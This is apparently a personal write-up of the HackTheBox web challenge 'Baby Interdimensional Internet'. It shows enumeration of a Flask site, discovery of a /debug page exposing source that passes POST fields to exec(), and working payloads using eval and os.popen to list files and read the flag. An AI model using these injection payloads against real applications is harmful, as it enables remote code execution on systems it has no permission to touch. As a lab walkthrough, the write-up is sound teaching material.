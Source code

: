 ```yaml
---
title: HTB - Baby Interdimensional Internet
tags: [Hacking, HTB, Security, Web, Python, Medium-ish, Retired]
style:
color:
description: Here is my write up for the challenge Baby Interdimensional Internet via HTB.
---
```


Geez Rick, this challenge kinda pissed me off.

Yea Morty, I feel you. It was like right there, right there in front our faces Morty. In front of our damn faces!!

## 1. Enumeration

Alright, first things first, lets kick off some scans while we browse the web page.

`nikto -h http://142.93.45.112:32113`

`dirb http://142.93.45.112:32113 -r`

While those were running, I went ahead and started browsing the page.

![landing page](../images/bii_main.png "landing page")

At first it appeared as though there was nothing too special about the site. After refreshing it, I noticed the number changed under the picture of the two interdimensional travelers.

![landing page new](../images/bii_main2.png "landing page new")

So this lets me know the page is not necessarily static, but is being dynamically generated somehow. Also, my scans were taking forever and nothing was really returning, so I stopped those.

Lets turn to our trusty developer tools via Firefox and see if we can get anything new from there.

Well why dont ya look at that, looks like we might have something at `/debug`

![possible lead](../images/bii_debug.png "possible lead")

Also noticed the response from the server...

![maybe flask](../images/bii_flask.png "maybe flask")

So it looks like we have some Flask involved, and after navigating to `http://142.93.45.112:32113/debug/`, Flask is confirmed. With the confirmation of Flask runnin, it  just lets us know its a Python based web server.

![debug](../images/bii_debug2.png "debug")

## 2. Exploiting Python Exec

First thing that stands out after reviewing the debug page is in the function `calc`. But we cant get ahead of ourselves so we keep looking at the code.

```
def calc(recipe):
  global garage
  garage = {}
  try: exec(recipe, garage)
  except: pass
```

Further investigation of the code reveals that the number seen on the landing page is randomly generated on the first two lines within the `federation` function. A line down, we see a condition involving a `POST` request.

```
if request.method == 'POST':
            ingredient = request.form.get('ingredient', '')
            recipe = '%s = %s' % (ingredient, request.form.get('measurements', ''))
```

It appears if we submit a `POST` request and supply values to both the `ingredient` and `measurements` parameters, we can control the number that appears on the main page. After intercepting and modifying the request via Burp, we have successfully taken control of the number.

```
POST / HTTP/1.1
Host: 142.93.45.112:32113
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://142.93.45.112:32113/
Content-Type: application/x-www-form-urlencoded
Content-Length: 37
Connection: close
Upgrade-Insecure-Requests: 1

ingredient=plumbus&measurements=137
```

![im the captain now](../images/bii_igotit.png "im the captain now")

Now its time to see if we can get some code execution on the box. Lets change the `measurements` variable since, it appears to be the varible thats getting supplied to the webpage.

```
ingredient=plumbus&measurements=eval('__import__(\'os\').popen(\'ls\').read()')
```

![swwweeeet vicotry](../images/bii_ls.png "sweet victory")

Before we go forward, lets talk about why I supplied the value I did. So first, I tried supplying commands straight into the `measurements` parameter but I kept getting a blank page back. Sooooo, after some digging, I found that while the `exec()` might be able to execute code, it doesnt return the results, unless specified, like `eval()` does. Heres some links talkin about it:

-[Kinda Explanin](https://medium.com/swlh/hacking-python-applications-5d4cd541b3f1)

-[Kinda Deep Explanation](https://www.code-learner.com/what-is-the-differences-between-python-eval-and-exec-function/)

Back to this walkthrough, we have remote code execution Morty.

![rce](../images/bii_rce.png "rce baby")

Now lets switch up the command. Gonna just read the flag since it returned in the last POST request.
```
ingredient=whoami&measurements=eval('__import__(\'os\').popen(\'cat+flag\').read()')
```
![the flag](../images/bii_flag.png "flag")

## 5. Conclusion

This box reminds me just how more dope Python is. It was definetly a headace dealing with escaping characters and passing them into the function, but it was good reinforcement on how certain functions can be exploited. Long sentence, sorry.

Dont be afraid to research that thang you arent familiar with.
